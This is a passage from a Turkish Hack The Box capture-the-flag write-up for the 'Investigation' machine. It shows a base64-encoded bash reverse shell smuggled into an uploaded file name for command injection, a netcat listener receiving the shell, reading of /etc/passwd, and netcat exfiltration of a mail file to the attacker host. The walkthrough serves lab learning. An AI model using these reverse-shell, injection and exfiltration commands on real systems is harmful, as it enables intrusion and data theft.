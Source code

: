 Shell almak için denediğim kodlar muhtemelen bazı karakterlerden dolayı başarısız oluyor bunu bypass etmek için base64 encode kullandım.

```bash
root@acivik:~/ctfs/Investigation-10.129.11.139# echo "bash -i &>/dev/tcp/10.10.14.106/9991 <&1 " | base64
YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjEwNi85OTkxIDwmMSAK
root@acivik:~/ctfs/Investigation-10.129.11.139#
```

Dosya ismini `echo 'YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjEwNi85OTkxIDwmMSAK'| base64 -d| bash |` bu şekilde değiştirdim ve gönderdim.

```bash
root@acivik:~/ctfs/Investigation-10.129.11.139# nc -lnvp 9991
listening on [any] 9991 ...
connect to [10.10.14.106] from (UNKNOWN) [10.129.11.139] 33072
bash: cannot set terminal process group (915): Inappropriate ioctl for device
bash: no job control in this shell
www-data@investigation:~/uploads/1674561534$
```

Sistemdeki kullanıcılar:

```bash
www-data@investigation:/tmp$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
www-data@investigation:/tmp$
```

Smorton ve Root var. İlk hedefim smorton kullanıcısına geçebilmek. Bunun için dosyalar arasında gezinerek bir şeyler bulmaya çalışıyorum.

```bash
www-data@investigation:/usr/local/investigation$ ls -la
total 1288
drwxr-xr-x  2 root     root        4096 Sep 30 23:43  .
drwxr-xr-x 11 root     root        4096 Aug 27 21:54  ..
-rw-rw-r--  1 smorton  smorton  1308160 Oct  1 00:35 'Windows Event Logs for Analysis.msg'
-rw-rw-r--  1 www-data www-data       0 Oct  1 00:40  analysed_log
www-data@investigation:/usr/local/investigation$
```

Görünen msg dosyasını kendi makinem üzerine alıp incelemek istiyorum.

Dosyayı aktarmak için netcat kullandım.

```bash
attacker -> nc -lnvp 9992 > windows.msg
box -> nc 10.10.14.106 9992 < 'Windows Event Logs for Analysis.msg'
```

msg dosyasını extract edeceğim.

```bash
root@acivik:~/ctfs/Investigation-10.129.11.139# extract_msg windows.msg 
root@acivik:~/ctfs/Investigation-10.129.11.139# ls
'2022-01-16_0030 Windows Event Logs for Analysis'   windows.msg
root@acivik:~/ctfs/Investigation-10.129.11.139# cd '2022-01-16_0030 Windows Event Logs for Analysis'/
root@acivik:~/ctfs/Investigation-10.129.11.139/2022-01-16_0030 Windows Event Logs for Analysis# ls
evtx-logs.zip  message.txt
root@acivik:~/ctfs/Investigation-10.129.11.139/2022-01-16_0030 Windows Event Logs for Analysis#
```
